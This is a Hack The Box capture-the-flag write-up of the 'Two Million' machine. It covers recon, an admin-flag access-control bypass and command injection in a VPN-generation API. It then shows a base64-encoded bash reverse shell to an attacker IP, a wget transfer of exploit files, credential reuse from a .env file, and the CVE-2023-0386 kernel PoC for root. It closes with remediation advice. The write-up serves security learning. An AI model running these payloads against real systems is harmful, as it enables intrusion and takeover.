





# HTB — Two Million

- **Difficulty:** Easy
- **OS:** Linux (Ubuntu)
- **Release Date:** May 27, 2023
- **Author:** altiera (Kazbek Talgatuly)
- **Date Completed:** April 14, 2026

---

## Overview

Two Million is an easy-rated Linux machine on Hack The Box built around the legacy HTB platform itself. It exercises a full web-centric kill chain: recovering a hidden invite-code generation flow from obfuscated client-side JavaScript, discovering an unauthenticated API route list, bypassing broken access control on an admin endpoint, exploiting command injection in a VPN-generation API parameter, pivoting through credential reuse from a web `.env` file, and finally escalating to root via the OverlayFS/FUSE kernel vulnerability CVE-2023-0386 ("GameOver(lay)").

The intended path is:

1. Reverse a packed JavaScript file on the landing page to find the invite API, decode a ROT13-encoded hint, and generate a valid invite code
2. Register and log in, then enumerate the authenticated API surface via `/api/v1` to obtain a full route list
3. Abuse a missing authorization check on `PUT /api/v1/admin/settings/update` to promote the current user to admin (`is_admin=1`)
4. Exploit command injection in the `username` parameter of `POST /api/v1/admin/vpn/generate` to execute commands as `www-data`
5. Recover database credentials from `/var/www/html/.env` and reuse them to `su admin`
6. Read a hint from `/var/mail/admin`, identify CVE-2023-0386, and compile/run the public PoC to escalate to root

---

## Reconnaissance

### Nmap Scan

I started with a service/version scan against the target.

```bash
sudo nmap -sV -sC 10.129.30.116
```

**Output:**

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-13 15:06 +0500
Nmap scan report for 10.129.30.116
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only two services are exposed:

- **Port 22** — SSH (`OpenSSH 8.9p1`)
- **Port 80** — HTTP (`nginx`, redirecting to `http://2million.htb/`)

The HTTP title shows the server redirects to a virtual host name, so I added the hostname to `/etc/hosts` before continuing:

```bash
sudo nano /etc/hosts
# 10.129.30.116  2million.htb
```

With only HTTP and SSH open — and SSH giving nothing without credentials — the entire foothold had to come from the web application.

---

## Web Enumeration

### Landing Page and the Invite Flow

Visiting `http://2million.htb/` loaded a replica of the old HTB landing page, with a **Join** link in the navigation leading to `/invite`. The invite page prompts for a code — without one, registration is blocked.



Viewing the page source, I found a reference to an obfuscated JavaScript file at `/js/inviteapi.min.js`. I downloaded it and inspected it.

### Deobfuscating the Invite JavaScript

The file was packed with the classic Dean Edwards `eval(function(p,a,c,k,e,d){...})` packer. The original packed blob looked like this:

```javascript
eval(function (p, a, c, k, e, d) { ... }
('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',
24, 24,
"response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify".split("|"),
0, {}));
```

The packer substitutes short tokens for a dictionary of strings provided at the end of the call. Substituting them back by hand yields the original source:

```javascript
function verifyInviteCode(code) {
    var formData = { "code": code };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) { console.log(response); },
        error:   function(response) { console.log(response); }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) { console.log(response); },
        error:   function(response) { console.log(response); }
    });
}
```

Two endpoints stood out: `/api/v1/invite/verify` and, much more interestingly, `/api/v1/invite/how/to/generate` — an endpoint whose very name implies it returns instructions on how to obtain a valid code.

### ROT13 Instruction Endpoint

Both endpoints are defined as `POST`, so I issued a POST request with `curl`:

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate
```

**Response:**

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

The server helpfully declared `"enctype":"ROT13"` itself. Decoding:

```bash
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr" \
  | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

**Decoded:**

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

### Generating the Invite Code

```bash
curl -X POST http://2million.htb/api/v1/invite/generate
```

**Response:**

```json
{"0":200,"success":1,"data":{"code":"S0RNVjYtRjZERUItOTFDT0ktRlRDNlc=","format":"encoded"}}
```

The `"format":"encoded"` field and the trailing `=` made the encoding obvious. Base64-decoding:

```bash
echo "S0RNVjYtRjZERUItOTFDT0ktRlRDNlc=" | base64 -d
# KDMV6-F6DEB-91COI-FTC6W
```

I used this code to register a new account on `/register` and logged in.



---

## Authenticated Enumeration

### Backend JavaScript on `/home`

Once authenticated, the `/home` page loads a second JavaScript file that is not served to anonymous visitors — `/js/htb-backend.min.js`. This is a useful general lesson: **each new level of access on a web app typically exposes new static assets, routes, and API surface, so recon should be repeated after every privilege change**.

I downloaded the file with my session cookie:

```bash
curl -kL -H "Cookie: PHPSESSID=<session>" \
  http://2million.htb/js/htb-backend.min.js -o app.js
```

A quick grep for API paths only returned a few analytics endpoints — nothing obviously exploitable. However, while inspecting browser traffic for the **Connection Pack** button on `/home/access`, I observed requests to `/api/v1/user/vpn/generate` and `/api/v1/user/vpn/regenerate`. This confirmed that a `/api/v1/user/...` namespace existed and suggested there might be a corresponding `/api/v1/admin/...`.

### Discovering the API Route List

Rather than fuzz blindly, I tried hitting the API root directly. The trailing slash matters — `/api/` redirects to `/404`, but `/api/v1` (without a trailing slash) returns something very different:

```bash
curl -iL -H "Cookie: PHPSESSID=<session>" http://2million.htb/api/v1
```

**Response:**

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET":  { "/api/v1/admin/auth": "Check if user is admin" },
      "POST": { "/api/v1/admin/vpn/generate": "Generate VPN for specific user" },
      "PUT":  { "/api/v1/admin/settings/update": "Update user settings" }
    }
  }
}
```



The server leaked its **entire administrative API surface to any authenticated user**. This is a Security Misconfiguration issue (OWASP API8:2023) and is the pivotal finding of the box — everything that follows is enabled by this single leak.

Three admin routes were listed:

- `GET /api/v1/admin/auth` — returns whether the caller is admin
- `POST /api/v1/admin/vpn/generate` — generate a VPN for a specific user
- `PUT /api/v1/admin/settings/update` — update user settings

---

## Broken Access Control — Privilege Promotion

### Confirming Current Role

```bash
curl -H "Cookie: PHPSESSID=<session>" http://2million.htb/api/v1/admin/auth
# {"message":false}
```

The server correctly reports that I am not an admin — at least on this endpoint.

### Testing `PUT /api/v1/admin/settings/update`

The crucial question was whether the `/admin/*` routes actually enforce the same authorization check that `/admin/auth` reports. I issued a `PUT` request with no body:

```bash
curl -iX PUT -H "Cookie: PHPSESSID=<session>" \
  http://2million.htb/api/v1/admin/settings/update
```

**Response:**

```
HTTP/1.1 200 OK
...
{"status":"danger","message":"Invalid content type."}
```

A `200 OK` — not a `401 Unauthorized` or `403 Forbidden`. The endpoint is **reachable by non-admin users**, and it is complaining only about the missing `Content-Type`, not about my role. This is textbook **Broken Object Level Authorization** (OWASP API1:2023): the developer added admin routes to the route list, but forgot to enforce the admin check on at least one of them.

### Letting the Server Leak the Schema

From here the exploit is a matter of feeding the server what it asks for. I added a `Content-Type` and an empty JSON body, and on each response the server helpfully named the next missing parameter:

```bash
# Step 1
curl -iX PUT \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{}' \
  http://2million.htb/api/v1/admin/settings/update
# -> "Missing parameter: email"

# Step 2
curl -iX PUT ... -d '{"email":"alt@mail.htb"}' ...
# -> "Missing parameter: is_admin"
```

The second missing parameter — `is_admin` — is exactly the role flag I needed.

### Promoting Myself to Admin

```bash
curl -iX PUT \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"email":"alt@mail.htb","is_admin":1}' \
  http://2million.htb/api/v1/admin/settings/update
```

Verification:

```bash
curl -H "Cookie: PHPSESSID=<session>" http://2million.htb/api/v1/admin/auth
# {"message":true}
```



I am now an admin on the application without ever touching an admin credential.

---

## Foothold — Command Injection

### Probing `POST /api/v1/admin/vpn/generate`

With admin rights I could now hit the VPN generation endpoint. I issued a normal request first to see what a successful response looked like:

```bash
curl -iX POST \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"alt"}' \
  http://2million.htb/api/v1/admin/vpn/generate
```

The server returned a complete `.ovpn` configuration including a client certificate whose Subject was `O=alt, CN=alt`. The username I submitted was being **interpolated into a certificate-generation command** on the server side — most likely something along the lines of `easyrsa build-client-full $username`. Any time user input is interpolated into a shell command without sanitization, command injection is the first thing to test.

### Confirming Command Injection

I injected a classic `;id;` terminator:

```bash
curl -iX POST \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"alt;id;"}' \
  http://2million.htb/api/v1/admin/vpn/generate
```

**Response:**

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



Remote code execution as `www-data`. The output of `id` is returned directly in the HTTP response, so the injection is not even blind.

### Reverse Shell

I started a listener on my attacking host:

```bash
nc -lvnp 4444
```

And fired a base64-encoded bash reverse shell through the injected parameter. Base64-encoding the payload avoids having shell metacharacters (`>`, `&`, `/`, quotes) pass through curl, JSON parsing, the PHP request handler, and the server-side shell, any of which could mangle them:

```bash
# encoded on attacker:
echo -n 'bash -i >& /dev/tcp/10.10.16.113/4444 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMTMvNDQ0NCAwPiYx

curl -X POST \
  -H "Cookie: PHPSESSID=<session>" \
  -H "Content-Type: application/json" \
  -d '{"username":"alt;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMTMvNDQ0NCAwPiYx|base64 -d|bash;"}' \
  http://2million.htb/api/v1/admin/vpn/generate
```

The listener caught the connection as `www-data`. I stabilized the shell with the standard sequence:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Lateral Movement — `www-data` to `admin`

### Credentials in `.env`

With a shell inside `/var/www/html`, I went straight for the environment file — on any PHP application it is one of the most productive files to read first:

```bash
cat /var/www/html/.env
```

**Output:**

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

### Credential Reuse via `su`

I checked which local users have login shells:

```bash
cat /etc/passwd | grep /bin/bash
# root:x:0:0:root:/root:/bin/bash
# www-data:x:33:33:www-data:/var/www:/bin/bash
# admin:x:1000:1000::/home/admin:/bin/bash
```

There is a local user `admin` — the same username as the database user. I tried the database password against `su`:

```bash
su admin
# Password: SuperDuperPass123
```

It worked on the first try. This is the same credential reuse pattern that came up on Cap — credentials discovered in any one place should always be tested against every other authenticated surface on the target.

### User Flag

```bash
admin@2million:~$ cat /home/admin/user.txt
0bb627f5b0d0e36e944f7376720316ca
```

---

## Privilege Escalation

### Reading the Administrator's Mail

Before running any automated enumeration I checked `/var/mail/admin`, which contained a single message:

```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700

Hey admin,
I know you're working as fast as you can to do the DB migration. While
we're partially down, can you also upgrade the OS on our web host? There
have been a few serious Linux kernel CVEs already this year. That one
in OverlayFS / FUSE looks nasty. We can't get popped by that.
HTB Godfather
```

The email is a direct hint: a 2023 Linux kernel CVE affecting **OverlayFS / FUSE**. This is **CVE-2023-0386** ("GameOver(lay)"), a uid-mapping flaw in OverlayFS that allows an unprivileged local user to copy a SUID-capable file from a nosuid FUSE mount into an overlay mount, where the capability bits are preserved — yielding a trivial root shell on vulnerable kernels (Ubuntu shipping with kernels prior to the patched point release).

### Compiling the PoC

I used the public PoC from `xkaneiki/CVE-2023-0386`:

```bash
git clone https://github.com/xkaneiki/CVE-2023-0386.git
cd CVE-2023-0386
```

The PoC ships three sources: `fuse.c` (userspace FUSE filesystem), `exp.c` (the actual exploit), and `getshell.c` (the payload that ends up with preserved capabilities). On my Kali the first build failed with missing headers, which I fixed incrementally:

```bash
sudo apt install libfuse-dev libcap-dev
# fuse.c was missing an include; added it at the top:
sed -i '1i #include <unistd.h>' fuse.c
make all
```

This produced three binaries: `fuse`, `exp`, and `gc`.

### Transferring to the Target

I packaged everything including the `ovlcap/` scaffold directory and served it over a Python HTTP server:

```bash
# attacker
tar czf exp.tar.gz fuse exp gc ovlcap
python3 -m http.server 8000
```

```bash
# target
cd /tmp
wget http://10.10.16.113:8000/exp.tar.gz
tar xzf exp.tar.gz
mkdir -p ovlcap/lower   # only a .gitkeep placeholder existed in the repo
chmod +x fuse exp gc
```

### Running the Exploit

The PoC needs two parallel sessions — one to keep the FUSE filesystem mounted, one to run the exploit proper. I opened a second shell as `admin` and ran, per the README:

```bash
# session 1
./fuse ./ovlcap/lower ./gc
```

This blocks in the foreground, serving the fake lower filesystem over FUSE.

```bash
# session 2
./exp
```

**Output from session 2:**

```
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Apr 14 08:20 .
drwxrwxr-x 6 root   root     4096 Apr 14 08:20 ..
-rwsrwxrwx 1 nobody nogroup 16112 Jan  1  1970 file
[+] exploit success!

root@2million:/tmp#
```


### Root Flag

```bash
root@2million:/tmp# cat /root/root.txt
e05753530b629046cf5e1856218320df
```

---

## Lessons Learned

Two Million is a compact but unusually complete web kill chain — it touches obfuscated client code, API recon, broken access control, command injection, credential reuse, and a public kernel CVE, all on a single easy box. The key takeaways:

**1. Client-side obfuscation is not a security control.** The invite flow was hidden only by a Dean Edwards packer, which is a reversible cosmetic transform. Anything the client must eventually execute can be read by an attacker. This maps directly to OWASP API9:2023 — _Improper Inventory Management_: the `/invite/how/to/generate` route was an internal developer convenience that should never have existed on a production surface.

**2. Route lists on production APIs are a Security Misconfiguration (OWASP API8:2023).** The single JSON response from `GET /api/v1` handed me the entire admin namespace. A correctly hardened API either does not expose a route index in production or at minimum filters it per caller role. Had this endpoint not been present, discovering `/api/v1/admin/settings/update` would have required much more invasive fuzzing — and may well have gone undetected.

**3. Authorization must be enforced on every endpoint, not just at a central `auth` check.** The `/api/v1/admin/auth` endpoint correctly reported `{"message":false}` for non-admin callers, but `PUT /api/v1/admin/settings/update` did not consult the same check. This is textbook **Broken Object Level Authorization** (OWASP API1:2023). The fix is middleware: every route inside `/api/v1/admin/*` should pass through a single admin-role gate before the handler runs, rather than relying on developers to remember the check on each individual route.

**4. Never interpolate user input into a shell command.** The command injection in `POST /api/v1/admin/vpn/generate` exists because `username` is passed directly into a certificate-generation shell command. Even when an endpoint is supposedly admin-only, user-controlled strings should be passed to subprocess APIs as an argument array (`execve`/`subprocess.run([...], shell=False)`), never joined into a shell string. Defense in depth matters here: the admin authorization bypass and the command injection are independent bugs, and either one alone would have been less severe — together they give full RCE to an unprivileged account.

**5. Credential reuse between the database and local users.** The `.env` credentials for the `admin` database user were the same as the password for the local Linux user `admin`. This is the single most reliable lateral-movement technique on real engagements, and it is worth making a habit of always trying application-layer credentials against every other authentication surface on a compromised host.

**6. Patch management is privilege escalation.** CVE-2023-0386 was publicly disclosed in early 2023 and fixed in Ubuntu within days. The machine was running an unpatched kernel, and the mail hint is the author's way of signaling the obvious real-world point: **the fastest path from user to root on most Linux boxes in the wild is a kernel CVE that was patched months or years ago**. Regular kernel patching is the single highest-ROI root-cause fix.

### Remediation Recommendations

- **Web application:** move the invite-generation flow out of the production API entirely; at minimum it should not be discoverable through a packed client-side file. Apply role-based middleware across the entire `/api/v1/admin/*` namespace so that reaching any admin handler without an admin session returns `403` before the handler runs. Remove or gate the `/api/v1` route list behind an admin check in production.
- **VPN generation:** never pass the `username` field into a shell command. Call `easyrsa` (or the equivalent) via `execve` with an argument array, and validate `username` against a strict allow-list regex (e.g. `^[a-zA-Z0-9_-]{3,32}$`) before use.
- **Credentials:** rotate the database password, and ensure it differs from any local user account password. Consider managing database credentials through a secret store rather than a plaintext `.env`.
- **Kernel:** upgrade to a patched kernel that includes the fix for CVE-2023-0386. Until then, mitigations include disabling unprivileged user namespaces (`sysctl kernel.unprivileged_userns_clone=0`) and unloading the `fuse` kernel module where it is not needed.

---

## References

- [CVE-2023-0386 — Ubuntu Security Notice](https://ubuntu.com/security/CVE-2023-0386)
- [xkaneiki/CVE-2023-0386 (PoC repository)](https://github.com/xkaneiki/CVE-2023-0386)
- [OWASP API Security Top 10 — 2023](https://owasp.org/API-Security/editions/2023/en/0x11-t10/)
- [OWASP — Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [HackTricks — Command Injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [Dean Edwards Packer — Online Unpacker](https://matthewfl.com/unPacker.html)